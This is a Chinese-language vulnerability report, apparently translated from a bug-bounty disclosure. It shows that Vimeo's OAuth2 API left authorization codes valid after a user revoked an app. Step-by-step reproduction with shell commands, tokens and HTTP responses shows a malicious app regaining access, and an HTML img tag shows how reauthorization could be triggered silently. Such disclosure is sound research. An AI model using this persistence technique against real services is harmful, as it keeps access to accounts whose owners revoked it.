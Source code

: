 ## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


类型: OAuth API.

![img_8.png](img_8.png)

![img_9.png](img_9.png)

`getAccessToken.sh`
![img_12.png](img_12.png)

`me.sh`
![img_11.png](img_11.png)

`URL GET/POST data: POST METHOD:`

`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`


`https://avuln.com/callback?state=0123456789abcdef&code=e1fa87cd449ae55b74445b31ac79450c14eeb657`

## 漏洞描述
OAuth2 API允许用户将访问他们账户的权限授予第三方应用程序。当然，用户能够管理此类应用程序对其帐户的访问，并可能拒绝任何应用程序的访问。当某些用户拒绝对应用程序的访问时，所有的access_token都将被撤销并变得无效。但是不仅access_tokens应该被撤销，授权码(它是OAuth2授权流中使用的中间令牌)也必须被撤销。
在撤销访问时，Vimeo OAuth2 API没有撤销其授权代码。它可能被利用恢复访问用户帐户后，恶意应用程序撤销访问。

## 复现步骤
1)打开应用的OAuth2授权链接; <br>
`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`


2)登录您的Vimeo帐户(如果需要的话)，点击允许;

3)从回调url复制code值，例如: <br>
`https://avuln.com/callback?state=0123456789abcdef&code=e1fa87cd449ae55b74445b31ac79450c14eeb657`

这里code值为`e1fa87cd449ae55b74445b31ac79450c14eeb657`

4)使用code值获取access_token:  <br>
```shell
$ ./getAccessToken.sh e1fa87cd449ae55b74445b31ac79450c14eeb657

{ 
  "access_token": "d3ac3bb53d1c4ebc3de7d28e4ed801c0", 
  "token_type": "bearer", 
  "scope": "public private", 
  "user": { 
    "uri": "/users/39285903",
    <... CUT OUT ... >
    }

```

5)检查access_token的有效性
```shell
$ ./me.sh d3ac3bb53d1c4ebc3de7d28e4ed801c0

HTTP/1.1 200 OKDate: Tue, 21 Apr 2015 14:10:29 GMTServer: nginxContent-Type: application/vnd.vimeo.user+jsonCache-Control: no-cache, max-age=315360000Expires: Fri, 18 Apr 2025 14:10:29 GMTContent-Length: 2930Accept-Ranges: bytesVia: 1.1 varnishAge: 0X- Served-By: cache-fra1239-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429625429.334602,VS0,VE203Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "uri": "/users/39285903",< ... CUT OUT ... >}

```

6)重复步骤1中我的测试申请链接:
`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`

7)重复步骤2登录到你自己的帐户(如果需要)，然后单击允许。

注意:不难想象应用程序需要用户再通过一次身份验证。许多应用程序不存储长期会话，而是强迫用户每天甚至经常登录/授权。

注2:OAuth提供程序通常允许使用`approval_prompt=auto`参数，这使得不需要用户再次单击allow。我没有发现这种可能性的Vimeo API，但如果这可能的，在这种情况下，恶意应用程序只需要把它的网站(或每当在互联网)像下面这样的:
```html
<html> 
<img src="https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef">
</html>
```
这样的代码将“静默地”产生新的access_token值，在用户每次加载它时进行回调。


8)从回调url中复制code值并保存以备以后使用:
`https://avuln.com/callback?state=0123456789abcdef&code=82e24f835184f47cd83f249907e7b d5018bf62c9`

code值为`82e24f835184f47cd83f249907e7bd5018bf62c9`

9)进入帐户安全设置`https://vimeo.com/settings/apps`


10)从Apps部分断开应用程序(如果我的测试应用程序使用Dor1s Test1)


11)为了确保访问被拒绝，重复步骤5:
```shell
$ ./me.sh d3ac3bb53d1c4ebc3de7d28e4ed801c0

HTTP/1.1 401 Authorization Required
Date: Tue, 21 Apr 2015 14:23:55 
GMTServer: nginx
Content-Type: application/vnd.vimeo.error+json
Cache-Control: no-cache, max- age=315360000WWW-Authenticate: Bearer error="invalid_token"Expires: Fri, 18 Apr 2025 14:23:55 GMTContent-Length: 53Accept-Ranges: bytesVia: 1.1 varnishX-Served-By: cache- fra1245-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429626235.146346,VS0,VE105Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "error": "A valid user token must be passed."}
```

12)使用步骤8中的code值，并将其交换为access_token:

```shell
$ ./getAccessToken.sh 82e24f835184f47cd83f249907e7bd5018bf62c9

{ 
  "access_token": "9eabdc746910ea39c07395ee1b69a2b9", 
  "token_type": "bearer",
   "scope": "public private",
    "user": { "uri": "/users/39285903",
    <... CUT OUT ...>
    }
```

13)检查access_token的有效性:
```shell
$ ./me.sh 9eabdc746910ea39c07395ee1b69a2b9
HTTP/1.1 200 OKDate: Tue, 21 Apr 2015 14:25:41 
GMTServer: nginx
Content-Type: application/vnd.vimeo.user+jsonCache-Control: no-cache, max-age=315360000Expires: Fri, 18 Apr 2025 14:25:41 GMTContent-Length: 2930Accept-Ranges: bytesVia: 1.1 varnishAge: 0X- Served-By: cache-fra1235-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429626341.087757,VS0,VE201Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "uri": "/users/39285903",<... CUT OUT ...>}
```


## 漏洞影响

该漏洞允许恶意应用程序保持对受害者帐户的访问活动，即使访问已经被撤销。不仅绕过了授权，而且还剥夺了受害者管理应用程序访问的能力。


## 小结

OAuth相关的，后面在继续总结一下;(与11做对比)

